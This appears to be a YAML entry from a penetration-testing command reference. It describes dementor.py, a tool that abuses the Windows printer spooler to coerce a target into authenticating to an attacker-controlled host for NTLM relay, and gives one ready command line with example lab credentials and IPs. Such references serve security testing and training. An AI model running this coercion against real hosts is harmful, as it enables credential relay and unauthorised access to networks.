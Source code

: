 ```yaml
---
description: |
  dementor.py interacts with the printer spooler on a host to trigger an authentication from the target IP to an attacker controlled host (usually an SMB or HTTP server). This captured authentication can then be relayed to authenticated to other hosts. See more in ntlmrelayx.py.

  Command Reference:

  	Target IP: 10.10.10.1

  	Attacker IP: 10.10.10.2

  	Domain: test.local

  	Username: john

  	Password: password123

items:
  Password:
    - code: |
        python3 dementor.py -u john -p password123 -d test.local 10.10.10.2 10.10.10.1
  Username:
    - code: |
        empty
filters:
  RPC:
    - code: |
        empty
  Linux:
    - code: |
        empty
  Windows:
    - code: |
        empty
---
```

